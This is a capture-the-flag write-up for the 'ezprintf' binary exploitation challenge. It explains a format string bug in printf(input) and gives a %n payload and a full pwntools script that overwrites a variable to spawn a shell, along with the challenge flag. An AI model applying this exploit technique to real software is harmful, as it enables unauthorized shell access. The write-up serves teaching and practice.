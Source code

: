 # ezprintf [496]
**Category:** Binary Exploitation

> Printf is wonky. Time to exploit its wonkyness.
>
> nc challs.hats.sg 1304
>
> Reading material:  
> https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf

## Write-up
This challenge is a standard format string challenge. 

Here's the simplified decompilation of **main**:
```c
  magic = 0;
  read(0,input,0x400);
  printf(input);
  if (magic != 0) {
    system("/bin/sh");
  }
```

Obviously, the line `printf(input);` contains a format string vulnerability. The format string argument was missing from `printf`, which could be exploited to print and overwrite addresses on the stack.

The objective of the challenge was to overwrite the value of `magic`, which would instantly give us a shell. However, the address of `magic` which was `0x0060106c`, contained a null byte, which would cause `printf` to stop "executing" our payload once the null byte was reached.

To overcome this, the address of `magic` can be placed last in the payload. We can use the format specifier `%15$n` to overwrite `magic`, where `magic` is the 15th value on the stack to be printed. This ensures `magic` is overwritten before the null byte is reached.

The payload contains the following:
1. `"%x "*21`: Prints the first 21 arguments on the stack in hex. It allows us to locate the address of `magic` in the stack after including it in our payload.
2. `"%15$n "`: The format specifier `%n` overwrites the next address on the stack with the number of bytes printed. This is used to overwrite `magic` with the number of bytes currently printed.
3. `"BBB"`: This is used to align stack, ensuring the address of `magic` isn't split up.
4. The address of `magic`.

Here's the final exploit:
```python
from pwn import *
from LibcSearcher import LibcSearcher
import sys

config = {
    "elf" : "./ezprintf",
    #"libc" : "./",
    #"ld" : "./",
    "HOST" : "challs.hats.sg",
    "PORT" : 1304,
}

def exploit(p):
	magic = elf.symbols['magic'] #0x0060106c
	
	payload = "%x "*21 + "%15$n "
	payload += "BBB" + p64(magic)

	sl(payload)
	p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])

    if "libc" in config.keys() and config["libc"]:
        libc = ELF(config["libc"])

    if sys.argv[-1] == "remote":
        p = remote(config["HOST"], config["PORT"])
    else:
        if "libc" in dir(): 
            p = process([config["ld"], config["elf"]], env={"LD_PRELOAD" : config["libc"]})
        else: 
            p = process(config["elf"])

        pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    r = lambda a: p.recv(a)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
 ```

**Flag:** HATS{h3h1_that_w1z_3z}

